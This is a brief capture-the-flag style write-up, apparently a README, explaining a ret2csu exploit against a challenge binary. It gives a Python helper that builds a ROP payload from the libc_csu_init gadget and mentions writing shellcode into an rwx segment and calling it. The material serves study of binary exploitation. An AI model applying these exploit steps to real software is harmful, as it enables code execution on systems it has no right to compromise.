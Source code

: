 #Exploit Works
in challenge Binary, Due to insufficient gadgets in the binary, proceed to exploit via the 'libc_csu_init' function.

'''python
def csu_init(func, arg1, arg2, arg3, returns):
	payload =  'A' * 8
	payload += p64(0)    # rbx
	payload += p64(1)    # rbp
	payload += p64(func) # r12
	payload += p64(arg1) # r13
	payload += p64(arg2) # r14
	payload += p64(arg3) # r15
	payload += p64(returns) # rip
	return payload
'''

and write Shellcodes in rwx segment (0x601000-0x602000), call it
